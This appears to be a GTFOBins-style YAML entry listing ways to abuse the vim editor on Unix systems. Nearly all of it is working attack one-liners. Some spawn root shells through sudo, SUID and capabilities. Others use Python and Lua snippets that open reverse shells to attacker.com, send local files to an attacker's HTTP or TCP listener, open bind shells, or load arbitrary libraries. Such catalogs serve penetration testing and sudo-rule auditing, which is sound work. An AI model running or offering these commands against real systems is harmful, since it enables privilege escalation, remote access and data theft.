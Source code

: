 ```yaml
---
functions:
  shell:
    - code: vim -c ':!/bin/sh'
    - code: vim --cmd ':set shell=/bin/sh|:shell'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: vim -c ':lua os.execute("reset; exec sh")'
  reverse-shell:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':py import vim,sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")
        vim.command(":q!")'
  non-interactive-reverse-shell:
    - description: Run ``nc -l -p 12345`` on the attacker box to receive the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        vim -c ':lua local s=require("socket"); local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          while true do
            local r,x=t:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));t:send(b);
          end;
          f:close();t:close();'
  non-interactive-bind-shell:
    - description: Run `nc target.com 12345` on the attacker box to connect to the shell. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          while true do
            local r,x=c:receive();local f=assert(io.popen(r,"r"));
            local b=assert(f:read("*a"));c:send(b);
          end;c:close();f:close();'
  file-upload:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))
        vim.command(":q!")'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()
        vim.command(":q!")'
    - description: Send a local file via TCP. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        vim -c ':lua local f=io.open(os.getenv("LFILE"), 'rb')
          local d=f:read("*a")
          io.close(f);
          local s=require("socket");
          local t=assert(s.tcp());
          t:connect(os.getenv("RHOST"),os.getenv("RPORT"));
          t:send(d);
          t:close();'
  file-download:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        vim -c ':py import vim,sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])
        vim.command(":q!")'
    - description: Fetch a remote file via TCP. Run `nc target.com 12345 < "file_to_send"` on the attacker box to send the file. This requires that `vim` is compiled with Lua support and that `lua-socket` is installed.
      code: |
        export LPORT=12345
        export LFILE=file_to_save
        vim -c ':lua local k=require("socket");
          local s=assert(k.bind("*",os.getenv("LPORT")));
          local c=s:accept();
          local d,x=c:receive("*a");
          c:close();
          local f=io.open(os.getenv("LFILE"), "wb");
          f:write(d);
          io.close(f);'
  file-write:
    - code: |
        vim file_to_write
        iDATA
        ^[
        w
  file-read:
    - code: vim file_to_read
  library-load:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
  suid:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3. Insert `os.setuid(0);` to retain root permissions.
      code: ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
  sudo:
    - code: sudo vim -c ':!/bin/sh'
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    - description: This requires that `vim` is compiled with Lua support.
      code: sudo vim -c ':lua os.execute("reset; exec sh")'
  capabilities:
    - description: This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
      code: ./vim -c ':py import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
  limited-suid:
    - description: This requires that `vim` is compiled with Lua support.
      code: ./vim -c ':lua os.execute("reset; exec sh")'
---
```


